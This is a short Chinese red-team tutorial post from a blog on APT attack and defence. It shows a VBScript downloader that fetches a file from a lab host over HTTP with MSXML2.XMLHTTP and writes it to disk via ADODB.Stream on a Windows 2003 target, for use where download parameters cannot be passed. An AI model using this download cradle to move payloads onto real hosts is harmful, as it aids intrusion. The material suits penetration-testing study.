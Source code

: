 专注APT攻击与防御
https://micropoor.blogspot.com/

在实战中，会碰到许多让人敬畏的环境，也许无法执行，或者无法把下载参数带入其中，故补充第七季vbs参数化的下载。

靶机：windows 2003
![](media/130baad813eacf09b1932ecb7e5d4279.jpg)

![](media/d434ad0c2a6c5f531e908fedca5f2044.jpg)

附：源码如下：
```vb
strFileURL = "http://192.168.1.115/robots.txt"
strHDLocation = "c:\\test\\logo.txt"
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", strFileURL, false
objXMLHTTP.send()
If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
objADOStream.Open
objADOStream.Type = 1
objADOStream.Write objXMLHTTP.ResponseBody
objADOStream.Position = 0
Set objFSO = CreateObject("Scripting.FileSystemObject")
If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocati on
Set objFSO = Nothing
objADOStream.SaveToFile strHDLocation
objADOStream.Close
Set objADOStream = Nothing
End if
Set objXMLHTTP = Nothing
```
>   Micropoor
